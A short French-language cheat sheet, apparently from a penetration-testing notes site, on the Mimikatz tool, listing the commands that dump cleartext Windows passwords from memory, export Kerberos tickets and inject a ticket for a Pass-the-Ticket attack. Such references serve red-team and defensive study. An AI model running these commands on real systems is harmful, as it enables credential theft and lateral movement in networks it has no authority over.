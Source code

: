 ```yaml
---
description: Mimikatz - Outil de Récupération de Mots de Passe Windows
---
```


# Mimikatz

`Description :`&#x20;

Mimikatz est un outil open source puissant qui permet de récupérer les mots de passe en clair, les tickets Kerberos, les clés de session et d'autres informations sensibles depuis la mémoire de systèmes Windows.

<mark style="color:yellow;">Exemples d'utilisation :</mark>

1. Récupérer les mots de passe en clair :&#x20;

* `mimikatz # privilege::debug`
* `mimikatz # sekurlsa::logonpasswords`

1. Exporter les tickets Kerberos : `mimikatz # sekurlsa::tickets /export`
2. Lancer un attaque Pass-the-Ticket (PtT) : `mimikatz # kerberos::ptt <chemin_du_fichier_ticket>`

<mark style="color:yellow;">Options Principales :</mark>

* `privilege::debug` : Obtenir les privilèges de débogage nécessaires pour accéder à certaines informations sensibles en mémoire.
* `sekurlsa::logonpasswords` : Récupérer les mots de passe en clair depuis la mémoire du système.
* `sekurlsa::tickets` : Afficher les tickets Kerberos présents en mémoire.
* `kerberos::ptt` : Injecter un ticket Kerberos pour lancer une attaque Pass-the-Ticket.
